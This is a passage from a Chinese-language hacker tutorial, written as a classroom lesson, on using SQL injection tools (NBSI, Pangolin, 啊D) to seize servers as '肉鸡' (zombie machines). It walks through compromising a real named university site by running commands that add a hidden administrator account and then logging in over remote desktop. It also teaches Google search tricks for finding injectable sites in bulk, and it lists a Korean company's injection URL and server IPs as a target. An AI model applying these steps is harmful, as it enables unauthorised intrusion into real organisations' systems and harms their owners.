







以上我们通过一个 MSSQL 数据库的 SA 注入点对 Pangolin 的功能进行了介绍，其实 Pangolin 也支持对 MySQL、Oracle 等的注入，限于篇幅今天就不一一举例了，希望叉子们回去后都好好练习一下它的使用。

### 六、注入工具拿下第一台服务器肉鸡

今天刚上课的时候我不是说要用注入工具拿下一台服务器肉鸡吗？下面就来实际操作。找到一个可以执行命令的注入点“http://alumni.nchu.edu.tw/news-detail.asp?ctype=news&autono=125”，使用 NBSI 执行命令发现开启了 3389 服务，并且可以连接，如图29。直接执行命令 net user 123 123 /add，net localgroup administrators 123 /add，建立一个用户名和密码都是 123 的管理员用户，使用远程桌面成功登录了上去，如图30。



至此，一台服务器肉鸡就这样到手了。当然在实际抓鸡的时候可能不会这么简单（我用了大半天的时间才找到这个注入点——），也可能对方根本没开 3389 服务。我只是通过这个例子来说明利用注入工具可以拿下服务器，只要你肯花时间去找注入点，就一定能得到属于自己的服务器肉鸡。最后我再说明一下，拿到注入点后千万不要搞破坏，不然带来麻烦那可就不好了。

在理想状态下轻松抓到了一台服务器肉鸡，但在实际使用过程中可能会遇到各种各样的情况，需要我们想办法去解决。下堂课我们会介绍在注入时根据不同的情况来得到服务器或 webshell 的方法。大家课下别忘了搜集一些注入备用，下课。

好了，今天为大家简单地介绍了几款常用的注入工具，并（本文所涉及到的啊D、NBSI 3.0、Domain3.5、HDSI、Pangolin 已收录到光盘中）


## 黑客兵器谱之注入攻击大接触

txcbg

天气预报都说 7 月是一年中最热的一个月，在即将过去的七月里，我几乎每天都是汗流浃背。为了准备 8 月份菜鸟学堂的课，我花了几十个小时在网上找例子，光汗就流了好几大桶，强烈要求小编们发雪糕慰问一下 -_-。

听天气预报说菜鸟学堂 8 月开课的那天正好又是个大晴天，于是 txcbg 早晨不到 5 点就起床了，匆匆吃过早饭后就往菜鸟学堂赶，为的就是避开火热的太阳。结果傻等了快 2 个小时，喝了 N 瓶水，吃了 N 根冰棍后，才陆续看到来菜鸟学堂上课的小菜们。

> “大家好，非常感谢大家顶烈日冒酷暑来菜鸟学堂听课，这也是对你们敬爱的 txcbg 老师，也就是本人的一种尊敬，希望这种光荣的传统能够保持下去。上节课给大家介绍了几款常用的注入工具，那么本节课我们就深入地介绍一下如何使用注入工具进行攻击，以让大家能够拿到更多的服务器肉鸡和 webshell。说到使用工具进行注入攻击，看上去很简单，但我们在实际操作时，会遇到这样或那样的问题，今天我就结合在注入攻击中遇到的各种问题来介绍注入攻击的方法。”

### 一、寻找注入点的技巧

上节课临下课前我让大家提前找些注入点，不知道大家找得怎么样了？”

> “注入点好难找啊，我找了很长时间也没找到几个。”讲台下一小菜抱怨道。

> “不要着急，下面我就教给大家一些寻找注入点的技巧，让大家能够快速地找到更多更好用的注入点。寻找注入点一般都是利用啊D配合搜索引擎批量寻找的，搜索引擎中我个人认为 Google 最好用（可以搜索国外网站，支持语法搜索），所以我们就以 Google 为例进行介绍。”

要想进行注入攻击，首先就要找到注入点，注入点的多少和好坏直接关系到注入攻击所取得的成果。说到用 Google 寻找注入点，还是有一些技巧的，比如搜索的关键词一定要新颖。如果你还在使用“inurl:asp”等关键词，找不到好用的注入点很正常。大家想啊，几乎所有人都知道“inurl:asp”这个关键词，不知道被人搜索过多少次了，即使有那么几个好用的注入点，也早被人利用过 N 次了。漏洞被人利用得多了，网站管理员都烦了，把漏洞补上了，剩下的都是不能利用的注入点了。因此我们要想找到好用的注入点，就要使用新颖的搜索关键词，最好是别人没有用过的。那什么样的搜索关键词才算是新颖呢？

“A B inurl:asp”这样的就是，其中 A、B 代表另外两个搜索关键字，比如“旅游 香港 inurl:asp”，变换 A、B 的内容，就可以产生很多新的搜索关键词了。再来说一个寻找新颖搜索关键词的方法：先使用“inurl:asp”搜索一下，在搜索到的结果中看一下是不是有不常见的文件名。比如我用啊D找到一个注入点“http://www.huaue.com/gx.asp?ttt=47”，如图1，发现其中的 gx.asp 不怎么常见，于是我们就把“inurl:gx.asp”作为新的搜索关键词，搜索结果如图2所示，一下子就搜索出了 8 个注入点。





以后再看到不常见的文件名，试着搜索“inurl:文件名”往往就会有意想不到的结果。其次，增加搜索关键字的个数。举个简单的小例子，我们在 Google 中搜索“inurl:asp”，显示有 1,700,000,000 条查询结果，如图3。但我们一页页地向下翻看搜索结果时，却看到了如图4所示的情况：到第 618 条搜索结果后就没有了。在利用 Google 进行搜索时，不管搜索结果有多少，我们最多能看到前 1000 个搜索结果（大多数情况下还不到 1000），也就是说我们最多只能在前 1000 项结果中寻找注入点，而剩下的不显示的结果中我们根本不能寻找注入点。那我们就不能找到更多的注入点了吗？当然不是。我的解决方法是增加搜索关键字，这样能使搜索结果的总数减少。假如总的搜索结果就 1000 项，而我们正好能看到前 1000 项，就相当于在所有的搜索结果中找一遍注入点（当然这只是理想情况，但道理是一样的）。变换不同的关键字，就可以在更多的结果中寻找注入点，找到的注入点自然也就会增多了。说得再通俗点，假如我们只用“inurl:asp”作为关键字搜索，最多只能在 1000 项结果中找注入点；假如把关键字换成“A B C inurl:asp”（A、B、C 分别代表不同的关键字），把 A、B、C 分别变换 10 个不同的关键字，就有 1000 项组合，我们就可以在 1000×1000 项结果中寻找注入点，找到的结果自然要比只在 1000 项结果中找到的多了。





上面简单介绍了寻找注入点的两个小技巧，其实大家搜索的注入点多了，就会找到自己的技巧。

### 二、SA注入点遇到的问题

在寻找注入点时，能执行系统命令的 SA 注入点是最希望见到的，因为找到了这样的注入点几乎也就等于得到了服务器的权限。上堂课的最后我曾以一个可以执行系统命令的注入点来作为例子：那个存在注入点的服务器在外网，开了 3389 并且可以外部连接，直接建立一个管理员用户，使用 3389 登录上去后就可以拿下服务器了。但这种注入点在现实中实在是太少了，可以说是“理想状态”下的注入点。实际找到的注入点并没有那么理想，比如没有开 3389、服务器在内网等。下面我就针对可能出现的情况一一提出应对办法。

#### 1、Web服务器和数据库服务器分离

首先要明确一点：通过 SA 注入点执行的命令是在数据库服务器上执行的。如果 Web 服务器和数据库服务器分离，通过 SA 注入点执行的命令对 Web 服务器没有任何影响。有时我们发现服务器开了 3389 并且可以外部连接，建好管理员用户登录时却提示用户名或密码错误。这时我们看下 Web 服务器和数据库服务器是否为同一台主机，如果不是的话，登录地址换成数据库服务器的再试试。告诉大家一个简单判断 Web 服务器和数据库服务器是否分离的方法：ping 一下存在注入点的网站域名，得到 Web 服务器的 IP 地址；再通过 SA 注入点执行 ipconfig 命令，得到数据库服务器的 IP 地址。如果两个 IP 地址相同，就说明 Web 服务器和数据库服务器是同一台主机；否则就说明 Web 服务器和数据库服务器分离了。比如一个注入点是“http://www.koentec.co.kr/board/Mboard.asp?exec=view&strBoardID=board_01&intSeq=27”，通过 ping 其域名 www.koentec.co.kr 得到其 Web 服务器的 IP 地址为 218.146.252.129，如图5；通过注入点执行 ipconfig 命令后得到数据库服务器的 IP 地址为 218.146.252.182，如图6。





很明显 Web 服务器和数据库服务器分离了，通过注入点建好管理员账户后，登录 3389 时要登录数据库的 IP 218.146.252.182，而不是 Web 服务器的 IP 218.146.252.129。218.146.252.129 和 218.146.252.182 都开启了 3389，218.146.252.129 的系统是 Windows Server 2003，218.146.252.182 则是新系统 Windows Server 2008。通过 3389 的登录界面也可以明显看到它们不是同一台主机，如图7、图8。



